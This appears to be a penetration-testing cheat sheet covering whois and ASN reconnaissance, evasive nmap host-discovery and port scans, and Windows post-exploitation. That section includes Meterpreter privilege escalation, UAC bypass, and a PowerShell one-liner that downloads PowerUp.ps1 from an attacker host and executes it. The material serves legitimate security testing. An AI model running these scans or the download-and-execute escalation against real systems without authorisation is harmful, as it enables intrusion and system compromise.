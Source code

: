 # Information Gathering
### Business
### Infrastructure
##### [Gather DNS Names and Public IPs](https://nmap.org/book/host-discovery-find-ips.html)
Confirm that any hosts found in this phase actually belong to the target, so as not to illegally scan or hack someone else.

* Perform whois on IP Address to get Net Block
```bash
whois <IP Address>
```
* [Look-up the CIDR from whois to get the Autonomous System Number](https://asn.cymru.com/cgi-bin/whois.cgi)
* [Find all of the IP prefixes which route to the AS Number](https://www.robtex.com/as/)

# Scanning
### Host Discovery 
##### Internet
* Simple Scan
```bash
sudo nmap -n -sn -g 53 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetDefaultPing
```
* [Extra probes to find more hosts](https://nmap.org/book/host-discovery-strategies.html)
```bash
sudo nmap -n -sn -g 53 -PE -PP -PS21,22,23,25,80,113,443,31339 -PA80,113,443,10042 -PU161,40125 -T4 -iL [Hosts File] | grep "Nmap scan report for" | cut -d ' ' -f5 > InternetExtendedPing
```
##### LAN
* [Simple Scan](https://nmap.org/book/host-discovery-techniques.html#host-discovery-default)
```bash
# Allow Reverse DNS to help identify candidates to exclude.
# Specify source port as DNS.
# Call as sudo to allow for default -sn options of -PE -PS443 -PA80 -PP.
# Otherwise, nmap can only send SYN packets.

# Look like Windows machine
sudo nmap -sn -g 53 --data-length 32 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing

# Look like Linux maching
sudo nmap -sn -g 53 --data-length 56 [Target Host]/[Network ID] --ttl 2 --randomize-hosts --reason --exclude [Attack Host] -oA LanDefaultPing
```

### Scan Ports
##### Open Ports
* Basic Scan
```bash
sudo nmap -sS --open -p0- <Target Host> -oA TcpOpenPorts
sudo nmap -sUV --version-intensity 0 --open <Target Host> -oA UdpOpenPorts
```
* [FIN, NULL, and Xmas Scans](https://nmap.org/book/scan-methods-null-fin-xmas-scan.html)
* [Custom Scan Types](https://nmap.org/book/scan-methods-custom-scanflags.html)
* [ACK Scan](https://nmap.org/book/scan-methods-ack-scan.html)
* [Window Scan](https://nmap.org/book/scan-methods-window-scan.html)
* [Maimon Scan](https://nmap.org/book/scan-methods-maimon-scan.html)
* [Idle Scan](https://nmap.org/book/idlescan.html)

##### Fingerprint Ports

### [Scan Protocol](https://nmap.org/book/scan-methods-ip-protocol-scan.html)
### [FTP Bounce Scan](https://nmap.org/book/scan-methods-ftp-bounce-scan.html)

# Post Exploitation
### Windows
* [Meterpreter - Migrate process](../Tools/Metasploit/README.md#Processes).
* Meterpreter - ```getuid```
* Meterpreter - ```sysinfo```
* Meterpreter - ```getsystem```
* Meterpreter Suggester - ```post/multi/recon/local_exploit_suggester```.
* Check users in Administrators - ```net localgroup administrators```.
* Bypass UAC
  * [Manually](../Techniques/PostExploitation/PrivilegeEscalation/Windows/README.md#UAC)
  * Meterpreter
* PowerUp.ps1
  * [Download As String](../Tools/Shells/Windows/PowerShell/README.md#Download-File-To-String)
```bash
iex (New-Object Net.WebClient).DownloadString('http://[Attack Host]/PowerUp.ps1')
Invoke-AllChecks
```
* [DLL Hijacking](../Techniques/DLL_Preloading/README.md)